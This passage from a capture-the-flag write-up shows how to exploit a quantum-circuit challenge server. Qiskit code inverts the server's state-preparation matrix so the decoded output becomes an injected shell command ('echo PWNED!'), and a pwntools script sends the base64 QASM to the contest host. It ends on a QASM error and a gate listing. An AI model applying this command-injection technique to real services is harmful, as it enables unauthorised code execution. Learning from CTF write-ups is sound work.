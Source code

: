 ```python
qc = QuantumCircuit(5) # create a new circuit
qc.append(StatePreparation(X), range(5))
qc.append(StatePreparation(server_sv), range(5))

final_sv = qi.Statevector(qc)
print(transform(final_sv, T_n)) # use T_n, not server_n
```
And we've successfully injected our own command!
```
echo 'PWNED!'
```

## Too open for QASM
Let's add back our remote connection and try and run our exploit now:
```python
server_sv, server_n = normalization("echo 'Hello, world!'") 
qc = QuantumCircuit(5)
qc.append(StatePreparation(server_sv), range(5))
M = qi.Operator(qc)
M = np.array(M.data)

T, T_n = normalization("echo 'PWNED!'")
inv_mat = np.linalg.inv(M)
X = inv_mat @ T

qc = QuantumCircuit(5)
qc.append(StatePreparation(X), range(5))

from base64 import b64encode
qc = b64encode(qc.qasm().encode())

from pwn import remote
# nc schrodingers-cat.chal.uiuc.tf 1337
r = remote("schrodingers-cat.chal.uiuc.tf", 1337)
r.sendlineafter(b'Please type your OpenQASM circuit as a base64 encoded string: ', qc)
print(r.recvline())
r.sendlineafter(b"Please enter your normalization constant (precision matters!): ", str(T_n).encode())
```
```
b'Error processing OpenQASM file! Try decomposing your circuit into basis gates using `transpile`.\n'
```
... what. Why doesn't this work? Well, it turns out that `StatePreparation` actually puts a ton of higher-level components into the quantum circuit, which QASM doesn't support. We can see this by printing out the QASM of the circuit:
```python
qc = QuantumCircuit(5)
qc.append(StatePreparation(X), range(5))
print(qc.qasm())
```
```text
OPENQASM 2.0;
include "qelib1.inc";
gate multiplex2_dg q0,q1 { multiplex1_reverse_dg q0; cx q1,q0; multiplex1_dg q0; }
gate multiplex3_dg q0,q1,q2 { multiplex2_reverse_dg q0,q1; cx q2,q0; multiplex2_dg q0,q1; }
gate multiplex1_reverse_reverse_reverse_dg q0 { rz(-5*pi/16) q0; }
gate multiplex2_reverse_reverse_dg q0,q1 { multiplex1_reverse_reverse_reverse_dg q0; cx q1,q0; multiplex1_reverse_reverse_dg q0; }
gate multiplex1_reverse_reverse_dg q0 { rz(pi/16) q0; }
gate multiplex2_reverse_dg q0,q1 { multiplex1_reverse_dg q0; cx q1,q0; multiplex1_reverse_reverse_dg q0; }
gate multiplex3_reverse_dg q0,q1,q2 { multiplex2_reverse_dg q0,q1; cx q2,q0; multiplex2_reverse_reverse_dg q0,q1; }
```